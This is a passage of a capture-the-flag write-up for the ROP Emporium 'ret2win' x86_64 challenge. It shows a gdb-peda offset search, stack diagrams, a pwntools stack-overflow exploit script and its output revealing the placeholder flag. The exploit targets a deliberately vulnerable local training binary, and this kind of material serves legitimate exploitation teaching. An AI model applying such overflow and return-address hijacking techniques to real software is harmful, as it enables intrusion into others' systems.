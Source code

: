```
gdb-peda$ pattern search AA0AAFAAbA\n
Registers contain pattern buffer:
RBP+0 found at offset: 32
Registers point to pattern buffer:
[RSP] --> offset 40 - size ~12
Pattern buffer found at:
0x00007fffffffddb0 : offset    0 - size   50 ($sp + -0x28 [-10 dwords])
References to pattern buffer found at:
0x00007fffffffb608 : 0x00007fffffffddb0 ($sp + -0x27d0 [-2548 dwords])
0x00007fffffffb720 : 0x00007fffffffddb0 ($sp + -0x26b8 [-2478 dwords])
0x00007fffffffda00 : 0x00007fffffffddb0 ($sp + -0x3d8 [-246 dwords])
0x00007fffffffda18 : 0x00007fffffffddb0 ($sp + -0x3c0 [-240 dwords])

```
The offset is `40`

The stack frame for this exploit should look like this. 
![35beef3276c1461b9bb34b3b7511b2e0](https://user-images.githubusercontent.com/69533371/127839225-bec4b51c-8c68-4475-8222-7303fb2951ba.png)


Here's an refernce of a function call stack for your convenience. 
![286731686f3b40dcb942cbde848a61d7](https://user-images.githubusercontent.com/69533371/127839253-bdda53a6-2015-43df-8320-567399262fe5.png)


- Exploit source code written in python3 using pwntool 



```
# https://ropemporium.com/challenge/ret2win.html
# ROPE{a_placeholder_32byte_flag!}
# x86_64
# ropemporium.com
# https://github.com/aditya0x80/writeups/blob/main/ropemporium/ret2win.py
from pwn import *

exp = process("./ret2win")
ret2win = p64(0x400756)
padding = b'A'*40
ret = p64(0x40053e)
payload = padding + ret + ret2win
exp.sendline(payload)
print(exp.recvall().decode())

```

```
[*] '/home/pwn0x80/Documents/ctfs/rop/ret2wins/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/pwn0x80/Documents/ctfs/rop/ret2wins/ret2win': pid 31101
[+] Receiving all data: Done (296B)
[*] Process '/home/pwn0x80/Documents/ctfs/rop/ret2wins/ret2win' stopped with exit code -11 (SIGSEGV) (pid 31101)
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag: ROPE{a_placeholder_32byte_flag!}
```